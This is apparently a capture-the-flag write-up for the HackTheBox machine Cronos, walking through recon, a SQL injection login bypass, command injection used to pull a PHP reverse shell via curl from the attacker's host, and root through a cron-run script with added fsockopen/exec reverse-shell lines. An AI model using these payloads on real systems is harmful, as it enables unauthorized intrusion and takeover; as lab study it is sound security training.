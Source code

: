 # Cronos [HTB](https://app.hackthebox.com/machines/11)
![cronos-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/cronos-01.png)


## Recon 

I start by adding the target to my `/etc/hosts` file, followed by an `nmap` scan:

```bash
nmap -sC -sV -A -p- cronos.htb -oN nmap.result
```

![namp-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ A DNS server on port 53. 
+ An Apache server on port 80.

Let's start with the DNS server to see if we can query some useful information, then we can take a look at the Apache server.

### DNS Port 53

Lets try to query for all the entries that the server is willing to disclose:

```bash
dig any cronos.htb @cronos.htb
```

![any-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/any-03.png)

We got two new domains, `admin.cronos.htb` and `ns1.cronos.htb`. Im gussing the `admin` subdomain is tied to the Apache server. 

I also tried to pull off a zone transfer with:

```bash
dig axfr @cronos.htb
```

This failed, so i added the `admin.cronos.htb` subdomain to `/etc/hosts` and moved on to the Apcache server. 


### Apache Port 80


Lets navigate towards the main site at `http://cronos.htb/` 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/site-04.png)

The main page hosts 5 links, all related to the `Laravel` web framework. I found the first link to be the most useful in getting a high-level overview of `Laravel`,  here is the bullet-points of the info.

+ `Laravel` is an open source PHP based framework, while they also recommend to download `Node` and `NPM`. 

+ There is an internal development server running on `http://localhost:8000`:

![development-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/development-05.png)

Worth to keep that in mind for the future in case we ever need it. 

+ An `.env` config file located at the root of the application should hold sensetive information including encryption keys for cookies and possibly credentials.  

![env-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/env-06.png)

I've tried to look for this file in the root of the site, wasnt able to find it. But lets keep an eye on that. 

The last link on the main site redirected me to `Laravel`'s Github page where we can find the source code. This is nice, and i read through it a bit, but it seems that the directory structure is different on our target. I tried to use directory treversal tricks to find juicy files but without much success.

So i decided to look online for some hacking tricks on `Laravel`, i found a few interesting articals like [this](https://labs.withsecure.com/publications/laravel-cookie-forgery-decryption-and-rce) one and [this](https://www.ambionics.io/blog/laravel-debug-rce) one, that describe more advanced attacks againts the AES CBC chiper mode, and some serialized attacks againts PHP. 

Before delving into these sorts of attacks i decided to take a look at the `admin.cronos.htb` subdomain.

## admin.cronos.htb


If we open our browser and navigate towards `http://admin.cronos.htb` we are greeted to a login page:

![login-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/login-07.png)

At first i tried to brute force this page using `hydra`:

```bash
ydra -l admin -P  /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:invalid"
```

While this was going i decided to poke around for SQL injection. At first i tried to generate an error based repsonse, but this didnt work for me. So instead i focused on Boolean payloads when i found that this one works:

```sql
' OR NOT 1120=-1120-- tGvo
```

I input this as the username, and the password i just type `admin`. This gets me past the login page:

![logged-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/logged-08.png)

Looks like this page is running a command? lets look at the source code:

![source-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/source-09.png)


So we can either run `traceroute` or `ping`, and we can supply to which host. All of this info is getting passed via a POST form, lets intercept that with Burp:

![initial-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/initial-10.png)

Lets try to modify these parameters to run something like `ls .`

![mod-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/mod-11.png)

It works:

![rce-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/rce-12.png)


This `config.php` looks interesting, lets see whats inside:

![empty-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/empty-13.png)

Looks like its empty, but the server renders it anyway, lets try to overwrite this file with a PHP reverse shell and execute it via the URL. I use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell. 

After you download the file make sure to update your IP and port info:

![update-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/update-14.png)

Then rename the file to `config.php`, and start a python web server with:

```bash
python3 -m http.server 80
```

Now we can transfer this over to the target with the following request:

![upload-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/upload-15.png)

```bash
command=curl&host=http://10.10.14.61+-o+config.php
```

Lets start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now when we open `http://admin.cronos.htb/config.php` the browser freezes, and we get a connection as the `www-data` user:

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/shell-16.png)


## Privilege Escalation

First thing i do when i land on the machine is upgrade to a TTY shell with:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that i started to look around the system, searching for unusual files, or programs, though i couldnt find something really interesting. 

Next i decided to hunt down for SUID binaries with:

```bash
find / -perm -4000 2>/dev/null
```

Again, nothing useful came up here. 

After that i took a look at the running processes with:

```bash
ps auxww
```

Nothing unusual. So i decided to look at `/etc/crontab` and this is where i found something intersting:

![crontab-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/crontab-17.png)

 
In essence,  root runs the `/var/www/laravel/aristan` file first and formost, lets take a look at this file:

![aristal-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/aristan-18.png)

A simple PHP script, so if we add a reverse shell line right at the top, wouldn't that give us a shell as root regardless of what should have happened next?  

I copy the file over to my kali machine where I can comfortably edit the file with `Vi`. Then i add the following two lines at the top:

```php
$sock=fsockopen("10.10.14.61", 443);
exec("/bin/bash -i <&3 >&3 2>&3");
```

![add-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/add-19.png)

I rename the orginal one on the target and transfer my variant with a python server. 


I then start my listener and get a connection one the cron-job is executed:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/root-20.png)
